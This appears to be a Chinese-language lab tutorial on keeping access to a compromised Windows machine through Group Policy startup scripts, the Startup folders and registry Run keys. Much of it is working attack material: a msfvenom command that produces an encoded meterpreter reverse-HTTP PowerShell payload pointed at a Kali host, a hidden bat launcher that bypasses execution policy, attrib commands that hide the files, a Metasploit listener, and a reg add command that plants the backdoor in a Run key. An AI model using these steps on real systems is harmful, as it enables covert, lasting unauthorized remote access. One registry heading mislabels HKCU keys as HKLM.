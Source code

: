 # 启动项目维持

启动项目， 就是开机的时候系统会在前台或者后台运行的程序。当操作系统完成登录过程， 进程表中出现了很多的 进程。操作系统在启动的时候， 自动加载了很多程序。许多程序的自启动， 给我们带来了很多方便， 这是不争的事 实， 但不是每个自启动的程序对我们都有用； 更甚者， 也许有病毒或木马在自启动行列。

## 组策略维持

### 一、组策略介绍

介绍： 组策略 (英语： Group Policy) 是微软Windows NT家族操作系统的一个特性， 它可以控制用户帐户和计算 机帐户的工作环境。组策略提供了操作系统、应用程序和活动目录中用户设置的集中化管理和配置。组策略的其中 一个版本名为本地组策略 (缩写“LGPO”或“LocalGPO”) ， 这可以在独立且非域的计算机上管理组策略对象。

原理： 在组策略中添加Payload， 利用组策略的自启动策略来加载Payload文件

### 二、组策略所在位置

#### 1、在运行框中输入“`gpedit.msc` ”， 点击确定或者直接按键盘上的回车键， 打开组策略

![img](https://img.gyxnb.top/img/clip_image001.jpg)

#### 2、在【Windows设置】->【脚本(启动/关机)】双击【启动】就可以进行设置

![img](https://img.gyxnb.top/img/clip_image002.jpg)

#### 3、选择要添加的脚本或者PowerShell

![img](https://img.gyxnb.top/img/clip_image003.jpg)



### 三、利用方式

1、我么使用msf生成一段PowerShsell进行测， 试将生成的PowerShell脚本写入本地策略组中【还不会生成的请阅 读之前的内容】

####  ( 1) 机器名和IP地址如下：

| 机器名称             | **IP**地址    |
| -------------------- | ------------- |
| Windows Server  2008 | 192.168.1.141 |
| Kali                 | 192.168.1.142 |

####  ( 2) kali 生成powershell

```
 msfvenom -p windows/x64/meterpreter/reverse_http -e x86/shikata_ga_nai -i 15 -b '\x00 '  lhost=192.168.1.142 lport=3333 -f  psh -o shell.ps1  
```

####  ( 3) 将生成的powershell下载到2008机器上

使用 `python -m SimpleHTTPServer 8000`![img](https://img.gyxnb.top/img/clip_image006-16838977011752.gif)命令传递

![img](https://img.gyxnb.top/img/clip_image007-16838977011753.jpg)

####  (4) 创建一个1.bat脚本， 并且添加到组策略【脚本】 中

![img](https://img.gyxnb.top/img/clip_image009.gif)

bat脚本内容如下：

```
@echo off
powershell.exe -w hidden  -ExecutionPolicy Bypass -NoExit  -File  C:\Users\Administrator\Desktop\keep\shell.ps1  exit
```

```
-w 隐藏窗口
-ExecutionPolicy Bypass 绕过策略
-NoExit 不推出
```

##### attrib隐藏shell.ps1和1.bat文件

```
#attrib隐藏
attrib +s +h 1.bat
attrib +s +h shell.ps1

#attrib还原
attrib -s -h 1.bat
attrib -s -h shell.ps1
```

添加到组策略开机启动中：

![img](https://img.gyxnb.top/img/clip_image010.jpg)

####  ( 5) kali运行msf进行监听

```
use exploit/multi/handler  
set payload  windows/x64/meterpreter/reverse_http  
set LHOST 192.168.1.142  
set LPORT 3333  
run 
```

####  ( 6) 重启2008机器查看是否已经连接

![img](https://img.gyxnb.top/img/clip_image012-16838977011754.gif)

## 启动文件夹维持    

### 一、启动文件夹介绍

启动文件夹可以使程序在开始时候自动启动。将需要开机自动启动的程序复制到开始菜单——所有程序——启动的 文件夹内， 可以将开机程序自动启动。

### 二、启动文件夹位置

```
启动文件夹:  
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup   #系统级，需要system权限  
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup #用户级 普通用户就可以
组策略脚本启动文件夹：  
C:\Windows\System32\GroupPolicy\Machine\Scripts\Startup
C:\Windows\System32\GroupPolicy\Machine\Scripts\Shutdown  
C:\Windows\System32\GroupPolicy\User\Scripts\Logon  
C:\Windows\System32\GroupPolicy\User\Scripts\Logoff  
```

### 三、利用方式

将需要启动的文件放入就好， 不会的去上面看

## 注册表维持

### 一、注册表介绍

注册表 ( Registry， 繁体中文版Windows操作系统称之为登录档) 是Microsoft Windows中的一个重要的数据库 ， 用于存储系统和应用程序的设置信息。早在Windows 3.0推出OLE技术的时候， 注册表就已经出现。随后推出的   Windows NT是第一个从系统级别广泛使用注册表的操作系统。但是， 从Microsoft Windows 95操作系统开始， 注 册表才真正成为Windows用户经常接触的内容， 并在其后的操作系统中继续沿用。

### 二、注册表位置

1、在运行框中输入“`regedit` ”， 点击确定或者直接按键盘上的回车键， 打开组策略

### 三、利用方式

#### 1、Windows注册表存在的自启动后门较多， 

此类后门主要利用原理为将Payload文件植入具备自启动特性的注册 表中， 这样Payload就会在计算机启动过程被执行。此处以较为经典的两类自启动项进行说明演示

```
# HKEY_LOCAL_MACHINE类  
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce

# HKEY_CURRENT_USER类  
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce  
HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce 
```

#### 2、本次实验利用方式是， 使用`reg add` 命令进行添加， 命令介绍如下

```
REG ADD KeyName [/v ValueName | /ve] [/t Type] [/s Separator] [/d Data] [/f]
        [/reg:32 | /reg:64]

  KeyName  [\\Machine\]FullKey
           Machine  远程机器名 - 忽略默认到当前机器。远程机器上
                    只有 HKLM 和 HKU 可用。
           FullKey  ROOTKEY\SubKey
           ROOTKEY  [ HKLM | HKCU | HKCR | HKU | HKCC ]
           SubKey   所选 ROOTKEY 下注册表项的完整名称。

  /v       所选项之下要添加的值名称。

  /ve      为注册表项添加空白值名称(默认)。

  /t       RegKey 数据类型
           [ REG_SZ    | REG_MULTI_SZ | REG_EXPAND_SZ |
             REG_DWORD | REG_QWORD    | REG_BINARY    | REG_NONE ]
           如果忽略，则采用 REG_SZ。

  /s       指定一个在 REG_MULTI_SZ 数据字符串中用作分隔符的字符
           如果忽略，则将 "\0" 用作分隔符。

  /d       要分配给添加的注册表 ValueName 的数据。

  /f       不用提示就强行覆盖现有注册表项。

 /reg:32  指定应该使用 32 位注册表视图访问的注册表项。

 /reg:64  指定应该使用 64 位注册表视图访问的注册表项。
```

#### 3、根据上述的提示， 我们将【 1.bat】添加到注册中， 进行启动

![img](https://img.gyxnb.top/img/clip_image018-16838977011765.gif)

使用如下命令

```
reg add  "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run"  /v shell /t REG_SZ /d "C:\Users\Administrator\Desktop\keep\1.bat"  
```

![img](https://img.gyxnb.top/img/clip_image020.gif)

#### 4、测试能不能到kali进行连接

![img](https://img.gyxnb.top/img/clip_image021-16838977011766.jpg)
